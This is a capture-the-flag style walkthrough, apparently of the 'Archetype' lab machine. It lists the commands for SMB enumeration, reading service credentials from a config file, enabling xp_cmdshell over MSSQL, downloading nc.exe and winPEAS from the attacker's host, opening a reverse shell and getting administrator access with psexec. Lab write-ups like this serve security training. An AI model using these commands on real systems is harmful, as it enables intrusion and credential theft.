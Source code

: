 # 1.Port Scan
ip=10.129.55.151
`nmap -sC -sV &ip` 

![76a009021391df5df47607fe182f0552.png](../_resources/76a009021391df5df47607fe182f0552.png)

# 2.smbclient Search
`smbclient -N -L  \\\\$ip\\`

![076a7846b0b14ae9c7291a413dd76ff4.png](../_resources/076a7846b0b14ae9c7291a413dd76ff4.png)

# 3.ID&Password Get
`smbclient -N \\\\$ip\\backups`

`cat prod.dtsConfig`

![f725d5a74739368a9998e37be55f3551.png](../_resources/f725d5a74739368a9998e37be55f3551.png)

# 4.cmdshell
`usr/bin/impacket-mssqlclient ARCHETYPE/sql_svc@$ip -windows-auth`

**> enable_xp_cmdshell;**
**> RECONFIGURE;**
**> xp_cmdshell"whoami"**

![555696cb467ff8c5bc99a464ad6f8fcb.png](../_resources/555696cb467ff8c5bc99a464ad6f8fcb.png)

**> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.16.8/nc.exe -outfile nc.exe"**

![ebd5a609c32334870e463d97d8aa5742.png](../_resources/ebd5a609c32334870e463d97d8aa5742.png)

`sudo python3 -m http.server 80`

![467333a2733eb54ac0b92a2305be27c5.png](../_resources/467333a2733eb54ac0b92a2305be27c5.png)

`nc -lvnp 4444`

![7aae1e0d19d1d6886bbb36abf037eefc.png](../_resources/7aae1e0d19d1d6886bbb36abf037eefc.png)

**SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc.exe -e cmd.exe 10.10.16.8 4444"**

![16b0441cafb4fe81789b820cf0760cf6.png](../_resources/16b0441cafb4fe81789b820cf0760cf6.png)

# 5.User.txt Get

![07c5d8af53fd6a4850d3e1e05396b977.png](../_resources/07c5d8af53fd6a4850d3e1e05396b977.png)

# 6.powershell

**> powershell**
**> wget http://10.10.16.8/winPEASx64.exe -outfile winpeasx64.exe**
**> dir**
![61210cd6bfd3a78b363e2aa06a2fa219.png](../_resources/61210cd6bfd3a78b363e2aa06a2fa219.png)

![0e24d40ff0e5342c6207426ecb4ac2db.png](../_resources/0e24d40ff0e5342c6207426ecb4ac2db.png)

# 7.Root.txt Get

**/usr/bin/impacket-psexec administrator@$ip**

**> whoami**
**> cd ..**
**> cd Users**
**>cd Administrator**
**>cd Desktop**
**> dir**
**> > type.root.txt**

![8206eacb0e6ecdf33599199daa8f0040.png](../_resources/8206eacb0e6ecdf33599199daa8f0040.png)
